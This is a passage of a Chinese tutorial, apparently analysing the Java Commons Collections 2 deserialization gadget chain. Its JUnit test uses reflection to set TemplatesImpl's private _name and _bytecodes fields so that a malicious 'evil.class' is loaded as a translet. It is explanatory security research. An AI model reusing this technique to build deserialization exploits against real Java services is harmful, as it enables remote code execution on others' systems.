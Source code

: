 由于**\_name**、**\_bytecodes**都是私有变量，只能通过反射的方式给其设置

注意**readObject**方法中的**\_tfactory**变量同样需要设置 ，否则会报出空指针异常

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.junit.Test;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC2TEST {
    @Test
    public void test() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field name_field = aClass.getDeclaredField("_name");
        name_field.setAccessible(true);
        name_field.set(templates,"name"); // 设置_name变量不为空  _class无需设置，需要进入defineTransletClasses

        //下面读取恶意类的字节码
        Field bytecodes_field = aClass.getDeclaredField("_bytecodes");
        bytecodes_field.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\CC1\\test\\target\\test-classes\\evil.class"));
        byte[][] bytes1 ={bytes};  //需要将字节码转为二维数组，符合形参
        bytecodes_field.set(templates,bytes1);

    }
}
```

调试可以看到，字节码的还原让**class\[0\]**变成了**evil**类

![](./images/image-200.png)
